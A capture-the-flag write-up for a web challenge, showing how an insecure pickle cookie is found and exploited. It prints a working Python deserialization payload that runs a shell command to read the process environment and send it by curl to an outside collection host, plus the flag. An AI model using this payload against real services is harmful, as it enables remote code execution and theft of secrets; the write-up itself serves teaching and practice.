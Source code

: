 Description:
```
The admin ate straight from the jar.

URL: http://51.254.114.186:8000/

Author: Matasareanu13
```

Bruteforce `/add` endpoint. Then notice that it only accepts POST requests. 

Bruteforce parameters and we find `item`. Using item we notice that it creates a cookie which base64 decoded looks like a pickle payload.

```
HTTP/1.1 302 FOUND
Content-Length: 208
Content-Type: text/html; charset=utf-8
Date: Fri, 18 Mar 2022 10:35:46 GMT
Location: http://51.254.114.186:8000/
Server: waitress
Set-Cookie: contents=gASVDwAAAAAAAABdlChLAIwFYWRtaW6UZS4=; Path=/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>. If not click the link.
```

If we set our cookie to that contents value then the list will get bigger. So it will unserialize our pickle payload. 

We can get RCE when untrusted pickle objects are unserialized:

```python
import pickle
import os
import pickletools
import base64


class PickleBomb:
    def __reduce__(self):
        cmd = ('cat /proc/self/environ | base64 -w0 | curl p4g52vv3.requestrepo.com -d @-')
        return os.system, (cmd,)

pickled = pickle.dumps([PickleBomb()])

print(base64.b64encode(pickled))

print(pickletools.dis(pickled))
```

And we get the flag:

**RST{3760DF2FEEC31C0CDFCA8E12A77936CC831FECAB8EDBB62A6030E831752A3480}**
